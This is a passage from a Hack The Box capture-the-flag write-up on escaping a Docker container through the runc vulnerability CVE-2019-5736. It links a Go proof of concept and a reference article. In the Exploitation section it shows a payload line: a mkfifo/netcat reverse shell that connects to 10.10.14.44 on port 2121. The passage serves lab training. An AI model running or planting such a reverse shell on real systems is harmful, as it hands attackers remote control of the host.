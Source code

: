 Here's the [article](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/) if you want more detail about this exploit.<br>
PoC [repository](https://github.com/Frichetten/CVE-2019-5736-PoC) written in golang.

## Exploitation

```go
. . .

// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.44 2121 >/tmp/f"

. . .
```

Find and change the payload in the code.

Andthen root the machine:

![](src/root.png)

![](/src/gifs/pwned.gif)

---

# Closing
If you liked the writeup, please consider [suporting](https://www.buymeacoffee.com/f4T1H21) a student to get `OSCP` exam and __+respecting__ my profile in HTB.

<a href="https://app.hackthebox.eu/profile/184235">
  <img src="https://www.hackthebox.eu/badge/image/184235" alt="f4T1H">
  </img>
</a>
<br>
<a href="https://www.buymeacoffee.com/f4T1H21">
  <img src="https://github.com/f4T1H21/f4T1H21/blob/main/support.png" width="221" height="40" alt="Support">
  </img>
</a>

# Resources
|`HS256 & RS256`|https://stackoverflow.com/questions/39239051/rs256-vs-hs256-whats-the-difference|
|:-|:-|
|__`JWT Debugger`__|__https://jwt.io/__|
|__`Overwriting RunC`__|__https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/__|
|__`CVE-2019-5736 PoC`__|__https://github.com/Frichetten/CVE-2019-5736-PoC__|

<br>

___-Written by f4T1H-___
